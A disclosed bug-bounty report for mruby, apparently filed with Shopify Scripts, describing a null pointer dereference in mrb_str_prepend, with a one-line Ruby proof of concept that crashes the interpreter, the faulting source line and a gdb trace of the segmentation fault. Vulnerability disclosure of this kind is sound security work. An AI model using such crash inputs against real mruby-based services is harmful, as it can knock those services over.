 # Null pointer dereference in mrb_str_prepend

## Report Details
- **Report ID**: 193081
- **URL**: https://hackerone.com/reports/193081
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-12-21T14:55:03.272Z
- **Disclosed**: 2017-02-07T07:42:12.394Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
# PoC
```ruby
String.new.prepend("")
```

# Cause
This crash is caused by null dereference in
https://github.com/mruby/mruby/blob/master/mrbgems/mruby-string-ext/src/string.c#L474

# Test
```
$ gdb -q --args ./bin/mruby test4.rb
Reading symbols from ./bin/mruby...done.
(gdb) r
Starting program: /home/tunz/working/mruby/mruby/bin/mruby test4.rb

Program received signal SIGSEGV, Segmentation fault.
0x0000000000464553 in mrb_str_prepend (mrb=0x1538010, self=...) at /home/tunz/working/mruby/mruby/mrbgems/mruby-string-ext/src/string.c:474
474       RSTR_PTR(s1)[len] = '\0';
```

## Attachments
No attachments
